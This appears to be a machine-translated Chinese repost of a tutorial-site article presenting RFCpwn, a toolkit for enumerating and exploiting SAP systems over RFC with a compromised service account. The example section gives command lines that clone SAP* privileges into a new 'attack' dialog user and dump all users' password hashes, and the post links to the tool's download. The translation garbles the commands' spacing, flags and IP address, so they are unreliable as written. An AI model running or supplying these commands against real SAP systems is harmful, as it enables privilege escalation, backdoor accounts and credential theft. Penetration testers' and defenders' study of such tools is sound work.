

# RFCpwn:一个使用 RFC 调用 SAP 的枚举和开发工具包

> 原文：<https://kalilinuxtutorials.com/rfcpwn/>

**RFCpwn** 是一个使用 SAP RFC 调用的 SAP 枚举和利用工具包。这是一个展示受损服务帐户影响的工具包。此 PoC 不适用于生产环境，不保证稳定性或支持。

它依赖于 pyrfc 和 SAP 在:[https://github.com/SAP/PyRFC#installation](https://github.com/SAP/PyRFC#installation)提供的库

**也可阅读-[AWS 报告:分析亚马逊资源的工具](https://kalilinuxtutorials.com/aws-report/)**

**例题**

*   **Ping–确认连接**

**。/rfcpwn . py-IP 192 . 168 . 200 . 253-s00-c000-u rfcuser-p rfcpass-ping**

*   **将一个用户的权限复制到一个新的对话用户中。如果未指定-copy，则使用 SAP*。**

**。/RFC pwn . py-IP 192 . 168 . 200 . 253-s 00-c 000-u RFC user-p RFC pass-user copy-user attack-pw change me 1**

*   **转储所有用户的哈希。实验性 bcode &密码哈希的选项-exp。**

**。/RFC pwn . py-IP 192 . 168 . 200 . 253-s 00-c 000-u RFC user-p RFC pass-dump**

**演示**

[**Download**](https://github.com/icryo/RFCpwn)